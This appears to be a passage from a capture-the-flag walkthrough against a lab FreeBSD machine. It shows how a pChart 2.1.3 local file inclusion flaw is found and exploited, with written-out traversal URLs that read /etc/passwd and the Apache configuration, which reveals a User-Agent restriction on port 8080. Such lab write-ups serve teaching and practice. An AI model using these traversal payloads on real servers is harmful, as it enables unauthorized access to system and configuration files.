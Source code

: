   
Uhh, well I'm glad it does. Checking the source code was worth it.  
  

    
    
    <head>  
      <!--  
      <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">  
      -->  
     </head>  
      
     <body>  
      <h1>It works!</h1>  
     </body>  
    

  
Hitting **/pChart2.1.3/index.php** shows some charting tool. After searching
for the tool's name on searchsploit, it showed that it's vulnerable to LFI.  
  
Example:  
  

    
    
    http://192.168.1.68/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd  
    

  
After poking around for a while I wasn't able to find anything useful, what's
the next step? For that, let's see what we currently know.  
  
1\. Victim runs FreeBSD, so many important files could be under different
paths.  
2\. Port 8080 returns a 403, what's preventing us from accessing the page?  
  
Since we have an LFI and we know that the server is running Apache, let's
search for the apache config file. After checking this, I managed to find the
httpd.config file.  
  
  

    
    
    http://192.168.1.68/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf  
    

  
Particularly interesting snippet:  
  

    
    
    SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser  
      
    <VirtualHost *:8080>  
        DocumentRoot /usr/local/www/apache22/data2  
      
     <Directory "/usr/local/www/apache22/data2">  
      Options Indexes FollowSymLinks  
      AllowOverride All  
      Order allow,deny  
      Allow from env=Mozilla4_browser  
     </Directory>  
      
